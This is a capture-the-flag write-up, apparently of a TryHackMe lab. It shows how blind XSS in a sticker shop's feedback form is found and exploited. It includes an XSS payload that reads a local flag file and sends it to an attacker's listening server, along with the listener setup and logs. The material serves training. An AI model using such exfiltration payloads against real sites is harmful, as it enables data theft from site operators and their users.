



---

## Introduction

- Difficulty: Easy
- Time: 120 mins

> Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

> Can you read the flag at http://10.49.171.129:8080/flag.txt?

---

## Exploring the website

From the intro text, it is obvious the webserver is at `8080`. So open it up in the browser and we are greeted with a sticker shop landing page.



Upon further exploring, we come across a feedback page, where users can provide feedback.



This could potentially lead to XSS (Cross site scripting). Let's check for the most basic XSS exploit.

```html
<script>alert(1);</script>
```

On submitting it, nothing really happened just a thank you message appeared.



So our little script tag did not get executed, or else we would have seen a pop-up box with `1` in it. To test whether our code really gets executed or not, we use `fetch`.

Before that, open up a terminal and setup your listening server. It opens port 1337 and listen for incoming connections (more like incoming HTTP requests).

```sh
$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

Now our test payload.

```html
<script>fetch('http://192.168.139.54:1337')</script>
```

This IP is not your local IP. This is the IP provided when you connect to TryHackMe's VPN.

Now when you click on Submit, you would see something like this in your terminal.

```sh
$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.49.171.129 - - [10/Apr/2026 10:35:27] "GET / HTTP/1.1" 200 -
```

This indicates our payload did get executed (but on the server side. That's why we can't see the pop-up) and we can see a request made from the machine's IP to our server.

---

## Exploit

We can weaponize this and read the `flag.txt` file. One thing to note, if we manually tried to access the flag like this `http://10.49.171.129:8080/flag.txt` we get `401 Unauthorized`.

So the final payload looks something like this

```html
<script>
  async function exfil() {
    const resp = await fetch('http://127.0.0.1:8080/flag.txt');
    const flag = await resp.text();
    await fetch('http://192.168.139.54:1337?flag=' + flag);
  }
  exfil();
</script>
```

> [!NOTE] What's the need for `async`?
> Since `fetch` API is asynchronous, if we do not wrap `fetch` inside `async` function, it returns a `Promise` object. So we need to `await` the `Promise` object to get the HTTP response.
{icon="circle-question"}

---

### Explanation

`exfil()` is an `async` function because we have used `fetch` inside of it. To use `async` functions inside function blocks, the outer function must be declared as `async`. It first fetches the flag locally. Since the code gets executed on the server, we can locally access the flag. It's just hosts other than `localhost` can't access it. Now we have a `Promise` in `resp` variable. We need to `await` it to get the actual server response. To get the flag, we `await` the response and store it in `flag` variable. Then we just make a `GET` request to our attacker server containing the flag as a `GET` parameter. This way we can view the flag as soon as the request is made in the terminal. Then we just call the `exfil()` function. (`exfil` stands for `exfiltrate`).

Clicking Submit, you should see something like this in the terminal

```sh
$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.49.171.129 - - [10/Apr/2026 10:35:27] "GET / HTTP/1.1" 200 -
10.49.171.129 - - [10/Apr/2026 10:47:17] "GET /?flag=THM{REDACTED} HTTP/1.1" 200 -
```

There you go! You have your flag!
